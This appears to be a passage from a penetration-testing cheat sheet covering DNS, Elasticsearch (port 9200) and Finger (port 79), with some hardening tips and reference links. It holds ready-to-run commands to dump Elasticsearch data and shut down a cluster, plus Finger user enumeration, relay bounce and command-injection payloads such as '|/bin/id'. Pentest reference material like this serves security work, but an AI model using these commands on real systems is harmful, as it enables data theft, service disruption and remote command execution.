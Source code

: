 **Hardening**
**References**

- Payload Delivery Over DNS: <https://github.com/no0be/DNSlivery>
- DNS Rebind Toolkit <https://github.com/Kinimiwar/dns-rebind-toolkit>
- Global DNS Hijacking Campaign: DNS Record Manipulation at Scale: <https://eforensicsmag.com/global-dns-hijacking-campaign-dns-record-manipulation-at-scale-by-muks-hirani-sarah-jones-ben-read/>

## ElasticSearch - 9200/tcp

**Quick Reference**

**Interesting APIs**

Description                         | URL
:---------------------------------- | :--------------------------------------------------------------
Config information, OS, JVM version | `curl -XGET http://<ip>:9200/_nodes?pretty=true`
Shutdown                            | `curl -XPOST http://<ip>:9200/_cluster/nodes/_master/_shutdown`
Dump data                           | `curl "http://<ip>:9200/_search?size=10000&pretty=true"`
Snapshots                           | `_snapshot`

**Hardening**

- `elasticsearch.yml` - to prevent dynamic scripting:
    ```
    script.disable_dynamic: true
    ```
- <https://medium.com/@bromiley/exploiting-elasticsearch-c83825708ce1>

## Finger - 79/tcp

**Quick Reference**

- User enumeration
    ```bash
    finger @example.com
    finger 'a b c d e f g h' @example.com
    finger '1 2 3 4 5 6 7 8 9 0'@target_host
    finger admin@example.com
    finger user@example.com
    finger 0@example.com
    finger .@example.com
    finger **@example.com
    finger test@example.com
    ```
  - <http://pentestmonkey.net/tools/user-enumeration/finger-user-enum>
    ```
    finger-user-enum.pl -U seclists/Usernames/Names/names.txt -t <ip>
    ```
  - <https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/FINGER/finger_enum_user.sh>
- Finger Redirect
    ```bash
    finger @target_host1@target_host2
    ```
- Command execution
    ```bash
    finger "|/bin/id@example.com"
    finger "|/bin/ls -a /@example.com"
    ```
- Finger Bounce - Hop from one finger deamon to another. Request will get logged as if it arrived from a relay.
    ```bash
    finger@host.com@victim.com
    ```